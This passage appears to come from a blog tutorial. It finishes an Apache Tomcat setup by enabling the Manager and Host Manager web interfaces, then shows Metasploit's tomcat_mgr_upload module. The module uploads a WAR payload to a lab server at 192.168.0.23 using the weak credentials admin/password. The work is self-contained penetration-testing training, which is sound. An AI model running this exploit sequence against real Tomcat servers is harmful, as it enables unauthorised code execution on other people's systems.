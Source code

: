 ![](https://i0.wp.com/1.bp.blogspot.com/-yYHFhEfcg0Y/XaszGHLPcbI/AAAAAAAAg_0/f9E72Fn_w2Ae5r4eIS1ZwE8cMt4noL01QCLcBGAsYHQ/s1600/10.png?w=687&ssl=1)

```
sudo nano /opt/tomcat/webapps/host-manager/META-INF/context.xml
```

We do the same thing with the host-manager file. To allow access to Host Manager too.

![](https://i2.wp.com/1.bp.blogspot.com/-EdpCVSMaO8M/XaszGJXkZQI/AAAAAAAAg_w/be-MXon5daQKYXgJALHMIE3N-86fp_BRgCLcBGAsYHQ/s1600/11.png?w=687&ssl=1)

saved the changes restart the tomcat service.

```
systemctl restart tomcat
```

![](https://i1.wp.com/1.bp.blogspot.com/-o2AQkT-ldLg/XaszG09qaaI/AAAAAAAAg_4/413r_BeQ9JMBFELDPV24gHNf1lJAgEPXQCLcBGAsYHQ/s1600/12.png?w=687&ssl=1)

### **Access the Web Interface**

We got to the interface by entering your server’s domain name or IP address followed on port 8080 in our browser. Now we will try to see if the Manager and Host Manager interfaces are working. Click the Buttons highlighted in the image.

![](https://i0.wp.com/1.bp.blogspot.com/-0sJq4NTOnZQ/XaszHeBLZsI/AAAAAAAAg_8/V-7dwbJz_JkY9EVrifdgMwsQtUHEyjKnACLcBGAsYHQ/s1600/13.png?w=687&ssl=1)

The Login authentication page will pop-up as expected, we enter the credentials that we created earlier.

![](https://i1.wp.com/1.bp.blogspot.com/-Up4NOG1xB4w/XaszHpy25GI/AAAAAAAAhAA/nORdiuF90LkaTrMByBt6Vq3gKCzpomwCwCLcBGAsYHQ/s1600/14.png?w=687&ssl=1)

Upon verification of the credentials, Apache Tomcat lands us to this Tomcat Virtual Host Manager Interface. From this page, you can add virtual hosts to serve your applications. This concludes our Apache Tomcat Setup.

![](https://i1.wp.com/1.bp.blogspot.com/-7WdFP8uE8ko/XaszHsgxJKI/AAAAAAAAhAE/gFlsmbdL8KMH4MFnb7WlSp5xKVFxCcQyACLcBGAsYHQ/s1600/15.png?w=687&ssl=1)

### **Exploiting Apache Tomcat**

Now that we have successfully installed the Apache Tomcat Framework, Let’s do its Penetration Testing. We are going to use Metasploit for exploiting the Apache Tomcat.

This module can be used to execute a payload on Apache Tomcat servers that have an exposed “manager” application. The payload is uploaded as a WAR archive containing a JSP application using a POST request against the /manager/html/upload component. NOTE: The compatible payload sets vary based on the selected target. For example, you must select the Windows target to use native Windows payloads.

```
use exploit/multi/http/tomcat\_mgr\_upload  
msf5 exploit(multi/http/tomcat\_mgr\_upload) > set target 2  
msf5 exploit(multi/http/tomcat\_mgr\_upload) > set rhosts 192.168.0.23  
msf5 exploit(multi/http/tomcat\_mgr\_upload) > set rport 8080  
msf5 exploit(multi/http/tomcat\_mgr\_upload) > set httpUsername admin  
msf5 exploit(multi/http/tomcat\_mgr\_upload) > set httppassword password  
msf5 exploit(multi/http/tomcat\_mgr\_upload) > exploit
```
